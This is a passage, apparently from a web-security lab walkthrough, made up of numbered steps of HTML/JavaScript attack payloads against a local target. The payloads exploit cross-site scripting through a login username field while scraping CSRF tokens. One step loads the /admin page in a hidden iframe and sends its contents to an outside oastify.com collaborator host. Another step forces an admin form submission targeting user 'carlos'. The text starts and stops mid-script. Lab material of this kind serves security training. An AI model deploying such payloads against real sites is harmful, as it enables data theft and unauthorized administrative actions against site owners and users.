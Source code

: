 ```html
	.catch(e => {
		if(q.length) {
			q.shift()(wait);
		}
	});
	setTimeout(x => {
		controller.abort();
		if(q.length) {
			q.shift()(wait);
		}
	}, wait);
}
</script>
```
2. clear the code from step1. replace $ip with the IP address and port from collab
```html
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
	fetch(url).then(r => r.text().then(text => {
		xss(url, text, '"><img src='+collaboratorURL+'?foundXSS=1>');
	}))
}

fetchUrl("http://192.168.0.197:8080", "http://aftoe7jcrthzecao2tmlo067iyoscj08.oastify.com");
</script>
```
3. clear the code from step2. replace $ip with the same the IP address and port from collab
```html
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
	fetch(url).then(r=>r.text().then(text=>
	{
		xss(url, text, '"><iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');
	}
	))
}

fetchUrl("http://192.168.0.197:8080", "http://aftoe7jcrthzecao2tmlo067iyoscj08.oastify.com");
</script>
```
4. clear the code from step3. replace $ip with the same the IP address and port from collab
```html
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url){
	fetch(url).then(r=>r.text().then(text=>
	{
	xss(url, text, '"><iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()">');
```

[def]: #client-side-summary